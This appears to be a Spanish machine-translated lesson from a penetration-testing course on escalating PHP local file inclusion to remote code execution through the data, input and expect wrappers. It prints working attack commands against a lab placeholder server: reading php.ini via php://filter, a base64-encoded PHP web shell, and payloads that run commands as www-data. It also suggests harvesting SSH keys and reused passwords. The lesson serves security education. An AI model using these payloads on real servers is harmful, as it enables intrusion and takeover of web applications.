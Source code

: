 # PHP Wrappers

Hasta ahora en este módulo, hemos estado explotando vulnerabilidades de inclusión de archivos para revelar archivos locales a través de varios métodos. A partir de esta sección, comenzaremos a aprender cómo podemos usar vulnerabilidades de inclusión de archivos para ejecutar código en los servidores de back-end y obtener control sobre ellos.

Podemos usar muchos métodos para ejecutar comandos remotos, cada uno de los cuales tiene un caso de uso específico, ya que dependen del lenguaje/marco de fondo y las capacidades de la función vulnerable. Un método fácil y común para obtener control sobre el servidor de back-end es enumerando las credenciales de los usuarios y las claves SSH, y luego usarlos para iniciar sesión en el servidor de back-end a través de SSH o cualquier otra sesión remota. Por ejemplo, podemos encontrar la contraseña de la base de datos en un archivo como`config.php`, que puede coincidir con la contraseña de un usuario en caso de que reutilicen la misma contraseña. O podemos verificar el`.ssh`directorio en el directorio de inicio de cada usuario, y si los privilegios de lectura no se configuran correctamente, entonces podemos obtener su clave privada (`id_rsa`) y úsalo para ssh en el sistema.

Además de tales métodos triviales, hay formas de lograr la ejecución de código remoto directamente a través de la función vulnerable sin depender de la enumeración de datos o los privilegios de archivos locales. En esta sección, comenzaremos con la ejecución de código remoto en aplicaciones web de PHP. Construiremos sobre lo que aprendimos en la sección anterior y utilizaremos diferentes`PHP Wrappers`Para obtener la ejecución del código remoto. Luego, en las próximas secciones, aprenderemos otros métodos para obtener la ejecución de código remoto que también se pueden usar con PHP y otros idiomas.

---

# **Datos**

El[datos](https://www.php.net/manual/en/wrappers.data.php)El envoltorio se puede usar para incluir datos externos, incluido el código PHP. Sin embargo, el envoltorio de datos solo está disponible para usar si (`allow_url_include`) La configuración está habilitada en las configuraciones de PHP. Por lo tanto, confirmemos primero si esta configuración está habilitada, leyendo el archivo de configuración de PHP a través de la vulnerabilidad de LFI.

### **Verificación de configuraciones de PHP**

Para hacerlo, podemos incluir el archivo de configuración de PHP que se encuentra en (`/etc/php/X.Y/apache2/php.ini`) para apache o at (`/etc/php/X.Y/fpm/php.ini`) para nginx, donde`X.Y`es su versión de instalación de PHP. Podemos comenzar con la última versión de PHP y probar versiones anteriores si no pudimos localizar el archivo de configuración. También usaremos el`base64`Filtro que usamos en la sección anterior, como`.ini`Los archivos son similares a`.php`archivos y deben estar codificados para evitar romper. Finalmente, usaremos curl o eructo en lugar de un navegador, ya que la cadena de salida podría ser muy larga y deberíamos poder capturarlo correctamente:

Envoltorios PHP

```
xnoxos@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">

```

Una vez que tenemos la cadena codificada base64, podemos decodificarla y`grep`para`allow_url_include`Para ver su valor:

Envoltorios PHP

```
xnoxos@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includeallow_url_include = On

```

¡Excelente! Vemos que tenemos esta opción habilitada, para que podamos usar el`data`envoltura. Saber cómo verificar el`allow_url_include`La opción puede ser muy importante, como`this option is not enabled by default`, y se requiere para varios otros ataques LFI, como usar el`input`envoltura o para cualquier ataque RFI, como veremos a continuación. No es raro ver esta opción habilitada, ya que muchas aplicaciones web dependen de ella para funcionar correctamente, como algunos complementos y temas de WordPress, por ejemplo.

### **Ejecución de código remoto**

Con`allow_url_include`habilitado, podemos continuar con nuestro`data`Ataque de envoltura. Como se mencionó anteriormente, el`data`El envoltorio se puede usar para incluir datos externos, incluido el código PHP. También podemos pasarlo`base64`cadenas codificadas con`text/plain;base64`, y tiene la capacidad de decodificarlos y ejecutar el código PHP.

Entonces, nuestro primer paso sería codificar un shell web básico de PHP, como sigue:

Envoltorios PHP

```
xnoxos@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

También podemos usar curl para el mismo ataque, como sigue:

Envoltorios PHP

```
xnoxos@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid            uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

---

# **Aporte**

Similar al`data`envoltura, el[aporte](https://www.php.net/manual/en/wrappers.php.php)El envoltorio se puede usar para incluir la entrada externa y ejecutar el código PHP. La diferencia entre él y el`data`El envoltorio es que pasamos nuestra opinión al`input`envoltura como datos de solicitud de publicación. Por lo tanto, el parámetro vulnerable debe aceptar solicitudes posteriores para que este ataque funcione. Finalmente, el`input`Wrapper también depende de la`allow_url_include`configuración, como se mencionó anteriormente.

Para repetir nuestro ataque anterior pero con el`input`Wrapper, podemos enviar una solicitud de publicación a la URL vulnerable y agregar nuestro shell web como datos post. Para ejecutar un comando, lo pasaríamos como un parámetro Get, como lo hicimos en nuestro ataque anterior:

Envoltorios PHP

```
xnoxos@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid            uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

**Nota:**Para aprobar nuestro comando como una solicitud GET, necesitamos que la función vulnerable también acepte la solicitud GET (es decir, uso`$_REQUEST`). Si solo acepta solicitudes de publicación, entonces podemos poner nuestro comando directamente en nuestro código PHP, en lugar de un shell web dinámico (por ejemplo,`<\?php system('id')?>`)

---

# **Esperar**

Finalmente, podemos utilizar el[esperar](https://www.php.net/manual/en/wrappers.expect.php)Wrapper, que nos permite ejecutar comandos directamente a través de transmisiones de URL. Espere funciona de manera muy similar a los shells web que hemos utilizado anteriormente, pero no necesita proporcionar un shell web, ya que está diseñado para ejecutar comandos.

Sin embargo, la esperanza es un envoltorio externo, por lo que debe instalarse manualmente y habilitarse en el servidor de back-end, aunque algunas aplicaciones web dependen de él para su funcionalidad central, por lo que podemos encontrarlo en casos específicos. Podemos determinar si está instalado en el servidor de back-end tal como lo hicimos con`allow_url_include`antes, pero lo haríamos`grep`para`expect`En su lugar, y si está instalado y habilitado, obtendríamos lo siguiente:

Envoltorios PHP

```
xnoxos@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expectextension=expect

```

Como podemos ver, el`extension`La palabra clave de configuración se utiliza para habilitar el`expect`Módulo, lo que significa que deberíamos poder usarlo para obtener RCE a través de la vulnerabilidad de LFI. Para usar el módulo esperado, podemos usar el`expect://`envoltura y luego pasar el comando que queremos ejecutar, como sigue:

Envoltorios PHP

```
xnoxos@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Como podemos ver, ejecutar comandos a través del`expect`El módulo es bastante sencillo, ya que este módulo fue diseñado para la ejecución de comandos, como se mencionó anteriormente. El[Ataques web](https://academy.hackthebox.com/module/details/134)El módulo también cubre el uso del`expect`Módulo con XXE Vulnerabilidades, por lo que si tiene una buena comprensión de cómo usarlo aquí, debe configurarse para usarlo con XXE.

Estos son los tres envoltorios PHP más comunes para ejecutar directamente los comandos del sistema a través de las vulnerabilidades de LFI. También cubriremos el`phar`y`zip`Envolturas en las próximas secciones, que podemos usar con aplicaciones web que permiten que las cargas de archivos obtengan una ejecución remota a través de vulnerabilidades de LFI.